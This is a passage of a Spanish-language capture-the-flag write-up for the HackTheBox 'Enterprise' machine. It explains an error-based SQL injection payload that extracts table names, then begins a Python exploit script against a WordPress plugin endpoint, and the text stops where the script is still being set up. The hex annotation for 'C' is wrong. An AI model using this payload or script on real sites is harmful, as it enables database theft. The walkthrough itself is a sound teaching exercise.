 * Le indicamos la URL vulnerable,
* que tome la base de datos llamada **WordPress**,
* nos dumpee las tablas y
* que el verbose sea máximo, asi tenemos claridad de los payloads y cositas que usa.

Encontramos esta sentencia:

(Le cambio algunas cositas para que sea más intuitiva)

```sql
(
   SELECT 8350 FROM(
       SELECT COUNT(*),CONCAT(
           0x41,(
               SELECT MID(
                   (
                       IFNULL(
                           CAST(
                               table_name AS NCHAR
                           ),0x20
                       )
                   ),1,50
               ) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x4242) LIMIT 0,1
           ),0x43,FLOOR(RAND(0)*2)
       )x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x
   )z
)
```

Hace un substring ([MID](https://www.w3resource.com/mysql/string-functions/mysql-mid-function.php)) del nombre de la tabla (50 posiciones por si algo) encontrada ([IN](https://www.mysqltutorial.org/sql-in.aspx)) en la base de datos **BB** (`0x4242` en hexadecimal), esa tabla la concatena ([CONCAT](https://www.w3schools.com/mysql/func_mysql_concat.asp)) con 3 valores más: **A** (`0x41` hex), **C** (`0x41` hex) y un número random ([RAND](https://database.guide/mysql-rand-function-generate-a-random-number-in-mysql/)) jugando con el entero más grande ([FLOOR](https://www.w3resource.com/mysql/mathematical-functions/mysql-floor-function.php)). El resultado (la tabla, por ejemplo: **Aclaroquesi_tableC**) viene concatenada en varios valores, esto para generar algunos errores y agruparlos (:

Es medio rara de entender, pero cada vez que la lees se vuelve más fácil. Listo, pues apoyémonos de esta sentencia para extraer las tablas de las bases de datos anteriores:

#### SQL injection - Tablas

```py
#!/usr/bin/python3

import requests
import string
import signal
import time
import sys
import re
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
    print("\nInterrupción, saliendo...\n")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:                     
    print("\n[!] Usage: python3 " + sys.argv[0] + " <database>\n")
    exit(0)

url = "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php"
result = ""
```